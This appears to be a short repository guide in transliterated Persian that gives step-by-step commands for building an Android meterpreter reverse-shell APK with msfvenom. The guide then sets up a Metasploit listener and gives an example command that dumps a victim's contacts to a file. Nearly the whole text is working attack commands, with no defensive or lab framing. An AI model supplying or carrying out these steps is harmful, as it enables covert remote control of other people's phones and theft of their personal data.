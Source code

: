 ### Script `Android-MetaSploit-Level 1`

$ Kali linux bayad dar halat root bashad

```bash
sudo -s
```

$ "LHOST" va "LPORT" ra jaygozari va enter mikonim (*=ifcongig / **= port delkhah )

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=* LPORT=** -o /home/kali/Desktop/vir.apk
```


$ sepas abzar metasploit ra ejra mikonim

```bash
msfconsole
```

$ bad az baz shodan abzar metasploit b tartib code haye zer ra mizanim

```bash
use exploit/multi/handler
```

```bash
set payload android/meterpreter/reverse_tcp
```

```bash
options
```

```bash
set LHOST *
```

```bash
set LPORT **
```


$ bad az etmam dobare "options" ra zade ta az set shoan "LHOST" va "LPORT" etmenan hasel konim va sepas :

```bash
options
```

```bash
exploit
```

```bash
help
```

---------------------------------------------------------------------------

`example` : For save contact : `dump_contacts -o /home/kali/Desktop/contact.txt`

